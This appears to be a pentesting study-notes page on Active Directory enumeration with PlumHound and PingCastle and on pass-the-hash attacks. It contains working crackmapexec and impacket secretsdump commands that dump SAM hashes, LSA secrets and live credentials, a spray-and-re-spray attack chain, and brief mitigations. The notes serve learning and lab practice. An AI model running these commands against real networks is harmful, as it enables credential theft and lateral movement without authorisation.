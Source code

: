 ### Plumhound - Domain Enumeration 
- Link tp [g9thub](https://github.com/PlumHound/PlumHound)  
- Trying to retrieve the information about the Active Directory in browser view similar to Bloodhound.
```powershell
#Installation
git clone https://github.com/PlumHound/PlumHound
cd PlumHound
sudo pip3 install -r requirements.txt
# Start with tool
python3 PlumHound.py -ap "domain users@example.com" "domain admins@example.com"
# Before running this tool should run the neo4j and bloodhound running in the background.
python3 PlumHound.py --easy -p "Password of neo4j"
python3 PlumHound.py -x tasks/default.tasks -p "Password of neo4j"
# Open the index.html in Firefox for interactive view.
```

### Pingcastle - Domain Enumeration 
- Free to use some more functionality for paid service.
- Install the Pincastle.exe with elevated privileges to understand what privileges you have.

## Post-Compromise Attacks
- In this section once we have an account to get responder or relay attacks some sort of access, what can we do with the move attack elevate vertically or horizontally.

### Pass the Hash/Password Attacks - Post Compromise 
- If we crack a password and/or dump the SAM hashes, we can leverage both for lateral movement in networks.
- We can dump SAM, SYSTEM files using impacket-secrectsdump command.
- Wdigest is an old authentication protocol up to 2008, 2012 server, you trick the user logging get clear text password using wdigest.

```powershell
#Some commands for crackmapexec or netexec or nxc 
crackmapexec smb IP/24 -u user -d ashok.local -p password # Check for Pen3d! to login via wmiexec, psexec
crackmapexec smb IP/24 -u user -d ashok.local -H LM:NTLM --local-auth
crackmapexec smb IP/24 -u user -d ashok.local -p password --local-auth --shares
crackmapexec smb IP/24 -u user -d ashok.local -p password --local-auth --lsa
crackmapexec smb IP/24 -u user -d ashok.local -p password --local-auth -M lsassy # Dumpout real-time credentials.

# Lab time
impacket-secrectsdump ashok.local/USERNAME:'PASSWORD'@IP # It will dump a bunch LM:NTLM hashes, LSA secrets, 
impacket-secrectsdump USERNAME@IP -hashes LM:NTLM
#Process like llmnr(lateral-wdigest, domain control) -> user hash -> cracked -> sprayed the password -> found new login -> secret dump those logins -> local admin hashes -> respray the network with local accounts.
```
- Mitigations
  * Limit account re-use
  * Utilize strong passwords > 14
  * Privilege Access Management (PAM), tools cyber ark process of check-in or checkout period password will expire the attacks will limit.
 